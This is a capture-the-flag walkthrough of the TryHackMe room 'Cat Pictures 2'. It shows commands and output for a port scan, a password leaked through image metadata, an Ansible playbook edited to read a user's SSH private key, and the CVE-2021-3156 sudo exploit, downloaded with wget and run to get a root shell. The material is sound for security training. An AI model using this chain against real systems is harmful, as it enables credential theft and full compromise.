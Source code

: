 # Cat Pictures 2

### Room link : https://tryhackme.com/room/catpictures2

## Port Scan
```
 kewl@h4x0r > ~/Desktop/leet/l > rustscan -a 10.10.158.237 -t 5000 -- -sV
...
...
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     syn-ack OpenSSH 9.0 (protocol 2.0)
1337/tcp open  waste?  syn-ack
3000/tcp open  ppp?    syn-ack
8080/tcp open  http    syn-ack SimpleHTTPServer 0.6 (Python 3.6.9)
...
...
```

Lychee is hosted on port 80 , Gitea on port 3000 and OliveTin on port 1337

## Flag 1

head over to 10.10.158.237:80 and check the images. Description of the first images says "note to self: strip metadata". Download the image and run exfitool on it.

```
 kewl@h4x0r > ~/Desktop/leet/l > exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg | grep Title
Title                           : :8080/[REDACTED].txt
```

Now head over to 10.10.158.237:8080/[REDACTED].txt

```
 kewl@h4x0r > ~/Desktop/leet/l > curl http://10.10.158.237:8080/[REDACTED].txt
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: [REDACTED]

ansible runner (olivetin): port 1337
```

Lets use the password to log into samarium's Gitea account.
The user owns a private repo with the name "ansible"

![](1.png)

## Flag 2
Now lets check ansible runner (olivetin) at port 1337.
Click on "Run Ansible Playbook" and wait for it to finish, then check the logs<br>
![](2.png)

There is user named "bismuth". lets check if this user has a ssh key.<br>
Remember that we can edit playbook.yaml in ansible repo to execute the commands we want.
change "whoami" to "cat /home/bismuth/.ssh/id_rsa"
```yaml
---
- name: Test 
  hosts: all                                  # Define all the hosts
  remote_user: bismuth                                  
  # Defining the Ansible task
  tasks:             
    - name: get the username running the deploy
      become: false
      command: cat /home/bismuth/.ssh/id_rsa
      register: username_on_the_host
      changed_when: false

    - debug: var=username_on_the_host

    - name: Test
      shell: echo hi
```
Head over to OliveTin and run ansible playbook.
![](3.png)<br>
Use the private key to log into bimuth's account using ssh
```bash
chmod 600 bismuth_key
ssh -i bismuth_key bismuth@10.10.158.237
```
```bash
bismuth@catpictures-ii:~$ ls
flag2.txt
bismuth@catpictures-ii:~$ cat flag2.txt
[REDACTED]
```

## Flag 3
On running linpeas, I noticed that the sudo binary is outdated and we can get root by running the exploit for CVE-2021-3156<br>
![](4.png)<br>
The exploit can be found here : https://github.com/blasty/CVE-2021-3156<br>
Clone it onto your host machine and start SimpleHTTP server<br>
![](5.png)

Download the files onto the remote machine
```bash
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/brute.sh
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/hax.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/lib.c
.
.
bismuth@catpictures-ii:~$ wget http://[HOST IP]:8000/Makefile
.
.
bismuth@catpictures-ii:~$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>

bismuth@catpictures-ii:~$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1000(bismuth)
# cd /root
# ls
ansible  docker-compose.yaml  flag3.txt  gitea
# cat flag3.txt           
[REDACTED]
```
